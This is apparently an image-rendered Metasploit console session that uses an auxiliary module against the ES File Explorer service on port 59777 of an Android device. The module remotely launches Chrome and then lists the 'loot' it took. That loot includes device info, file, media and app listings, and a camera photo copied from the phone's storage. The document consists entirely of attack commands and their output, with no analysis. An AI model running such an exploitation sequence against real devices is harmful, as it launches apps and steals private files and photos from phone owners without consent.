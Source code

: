 ```
[*] Auxiliary module execution completed
resource (es.rb)> set action APPLAUNCH
action => APPLAUNCH
resource (es.rb)> set actionitem com.android.chrome
actionitem => com.android.chrome
resource (es.rb)> run
[+] 1.1.1.1:59777  - com.android.chrome launched successfully
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> loot

Loot
====

host           service  type                 name                                                     content                   info  path
----           -------  ----                 ----                                                     -------                   ----  ----
1.1.1.1        getDeviceInfo.json   es_file_explorer_getdeviceinfo.json                      application/json                /root/.msf4/loot/20190324073803_default_1.1.1.1_getDeviceInfo.js_744272.bin
1.1.1.1        listFiles.json       es_file_explorer_listfiles.json                          application/json                /root/.msf4/loot/20190324073803_default_1.1.1.1_listFiles.json_522563.bin
1.1.1.1        listVideos.json      es_file_explorer_listvideos.json                         application/json                /root/.msf4/loot/20190324073803_default_1.1.1.1_listVideos.json_623335.bin
1.1.1.1        listAudio.json       es_file_explorer_listaudio.json                          application/json                /root/.msf4/loot/20190324073803_default_1.1.1.1_listAudio.json_331531.bin
1.1.1.1        listAppsSystem.json  es_file_explorer_listappssystem.json                     application/json                /root/.msf4/loot/20190324073821_default_1.1.1.1_listAppsSystem.j_581712.bin
1.1.1.1        listAppsPhone.json   es_file_explorer_listappsphone.json                      application/json                /root/.msf4/loot/20190324073838_default_1.1.1.1_listAppsPhone.js_773512.bin
1.1.1.1        listAppsSdcard.json  es_file_explorer_listappssdcard.json                     application/json                /root/.msf4/loot/20190324073838_default_1.1.1.1_listAppsSdcard.j_543396.bin
1.1.1.1        listAppsAll.json     es_file_explorer_listappsall.json                        application/json                /root/.msf4/loot/20190324073854_default_1.1.1.1_listAppsAll.json_886297.bin
1.1.1.1        listPics.json        es_file_explorer_listpics.json                           application/json                /root/.msf4/loot/20190324073855_default_1.1.1.1_listPics.json_831055.bin
1.1.1.1        getFile              /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg  application/octet-stream        /root/.msf4/loot/20190324073855_default_1.1.1.1_getFile_670725.jpg
1.1.1.1        listApps.json        es_file_explorer_listapps.json                           application/json                /root/.msf4/loot/20190324073856_default_1.1.1.1_listApps.json_189709.bin
```
